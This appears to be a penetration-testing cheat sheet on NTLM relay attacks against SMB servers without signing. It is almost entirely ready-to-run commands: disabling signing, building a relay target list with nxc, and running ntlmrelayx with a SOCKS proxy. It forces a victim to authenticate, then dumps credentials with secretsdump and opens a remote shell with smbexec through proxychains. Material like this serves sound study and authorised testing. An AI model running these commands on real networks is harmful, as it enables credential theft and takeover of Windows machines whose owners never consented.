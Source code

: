 This attack is only possible if signing is disabled

## Check if signing is enabled 

```powershell
Get-SmbServerConfiguration | Select EnableSMB1Protocol, EnableSMB2Protocol, RequireSecuritySignature
```

Disable signing from GPO
```powershell
Set-SmbClientConfiguration -RequireSecuritySignature $false
```

## Execution steps

### Obtain list of SMB servers that do not enforce signing and that cantherefore be relayed.
  
```sh
nxc smb 192.168.122.30 --gen-relay-list out.txt
```

### Start server to replay Net-NTLM hash
  
```sh
sudo ntlmrelayx.py --no-http-server -smb2support -t smb://192.168.122.30 -socks
```

### Within the windows machine, force the victim to execute

```powershell
dir \\192.168.122.1\test
```

### At this point we have established an authenticated SOCKS proxy
```powershell
  | ntlmrelayx> socks
  | Protocol  Target          Username               AdminStatus  Port 
  | --------  --------------  ---------------------  -----------  ----
  | SMB       192.168.122.30  HEXDUMP/ADMINISTRATOR  TRUE         445  
```


  We can use `proxychains` to proxy our commands using the authenticated session 
  
#### lookupsid.py
```sh
proxychains lookupsid.py -no-pass -domain-sids hexdump/administrator@192.168.122.30
```

#### secretsdump.py
```sh
proxychains secretsdump.py -no-pass hexdump/administrator@192.168.122.30  
```

#### smbexec.py
```sh
proxychains smbexec.py -no-pass hexdump/administrator@192.168.122.30
```